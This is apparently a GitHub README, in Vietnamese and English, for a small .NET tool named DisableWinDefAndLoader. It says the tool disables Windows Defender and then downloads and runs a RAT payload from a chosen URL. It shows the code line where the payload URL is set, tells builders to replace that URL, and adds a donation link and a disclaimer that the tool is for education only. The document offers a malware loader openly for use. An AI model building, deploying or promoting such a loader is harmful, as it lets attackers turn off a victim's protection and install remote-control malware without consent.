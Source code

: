 # DisableWinDefAndLoader

Đây là một ứng dụng nho nhỏ, chạy được từ windows 10 trở lên (chạy trên .NET framework 3.5).
Có thể disable windows defender và tự động tải, chạy payload RAT muốn thả vào.

This is a small application that can run on Windows 10 and above (requires .NET Framework 3.5).
It can disable Windows Defender and automatically download, then execute a RAT payload from a specified URL.

Thay payload url trong project trước khi build.
Replace the payload URL in the project before building.
```c#
string payload_url = "https://google.com/payload.exe";
```

# Buy me a coffee
https://paypal.me/bebinh1611?country.x=VN&locale.x=en_US


# Lưu ý:
Project được viết với mục đích học hỏi, tôi không chịu trách nhiệm trước mọi vấn đề, hành động nào được sử dụng với mục đích trái pháp luật.
This project is created for educational purposes. I am not responsible for any illegal or unethical use of this application.
